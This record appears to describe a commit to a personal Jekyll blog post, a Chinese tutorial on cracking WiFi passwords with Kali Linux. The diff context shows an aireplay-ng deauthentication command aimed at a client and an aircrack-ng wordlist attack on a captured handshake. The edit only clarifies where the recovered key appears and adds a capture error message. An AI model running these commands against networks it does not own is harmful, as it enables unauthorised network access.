

Before and after one commit to leexuan/leexuan.github.io, a Jekyll site: the page built from _posts/2020-06-26-Kali+Airmon+WiFi破解.md, in a window 1280 px wide and 1400 px high, scrolled down 3711 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
修改 Kali+Airmon+WiFi破解 blog

````diff
--- a/_posts/2020-06-26-Kali+Airmon+WiFi破解.md
+++ b/_posts/2020-06-26-Kali+Airmon+WiFi破解.md
@@ -129,7 +129,7 @@ root@kali:~# aireplay-ng -0 20 -a 80:xx:xx:xx:xx:28 -c 18:yy:yy:yy:yy:40 wlan0mo
 root@kali:~# aircrack-ng -w /home/common.txt /home/ChinaNet-LRRV-01.cap
 ```
 
-出现**KEY FOUND**，则表示破解成功。
+出现**KEY FOUND**，则表示破解成功，括号中字符串即为密码。
 
 ![image-20200627124422162](/images/posts/2020-06-26-Kali+Airmon+WiFi破解.assets/image-20200627124422162.png)
 
@@ -148,7 +148,7 @@ root@kali:~# airmon-ng stop wlan0mon
 实操过程中，可能出现：
 
 - 扫描wifi过程中，无法收集到wifi信息
-- 抓包中出现
+- 抓包中出现：fixed channel wlan0mon xx
 
 注意：拔掉无线网卡重新插入，或者重启虚拟机。
 
````
